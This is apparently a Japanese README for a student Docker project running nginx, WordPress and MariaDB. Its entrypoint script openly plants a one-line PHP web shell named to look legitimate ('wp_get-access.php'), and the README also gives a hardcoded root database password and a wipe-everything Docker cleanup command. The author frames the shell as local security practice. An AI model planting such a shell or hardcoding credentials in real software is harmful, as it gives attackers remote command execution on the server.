 # inception

WordpressのDockerコンテナです。
セキュリティの勉強をかねて少しやります。

WebShell仕込んでます。
実稼働で使わないでください！

## Containers

- nginx
- wordpress
- mariadb

## WebShell

https://localhost:443/wordpress/wp_get-access.php

ありそうな名前`wp_get-access.php`で作ってます。

### 配置場所

- /var/www/html/wordpress/wp_get-access.php

`srcs/requirements/wordpress/docker-entrypoint.sh`

```bash
echo '<?php system($_GET["cmd"]);?>' > /var/www/html/wordpress/wp_get-access.php
```

### 用途

Bonusの部分で利用します。

> 自分が便利だと思う好きなサービスを設定する。選んだサービスを正当化する必要があります。

## ポートフォリオ

昔作ったポートフォリをを載せてます。

### 用途

Bonusの部分で利用します。

> PHPを除くお好きな言語で、簡単な静的ウェブサイトを作成してください（はい、PHPは除きます！）。例えば、ショーケースサイトや履歴書を発表するためのサイトなど。

## SQL チートシート

```bash
# Maria DBのサーバーにアタッチする
docker exec -it $(docker ps -q -f name=mariadb) /bin/ash

# ログイン
mariadb -hlocalhost -uroot -p42inceptiondbroot

# MySQLのコマンド
> USE mysql;
> SELECT * FROM <TABLE_NAME>
```

## Memo

### 環境を初期化する

```shell
sudo rm -rf ~/data/

docker stop $(docker ps -qa); docker rm $(docker ps -qa); docker rmi -f $(docker images -qa); docker volume rm $(docker volume ls -q); docker network rm $(docker network ls -q) 2>/dev/null
```

### 起動確認

https://localhost:443/wp_install_log.html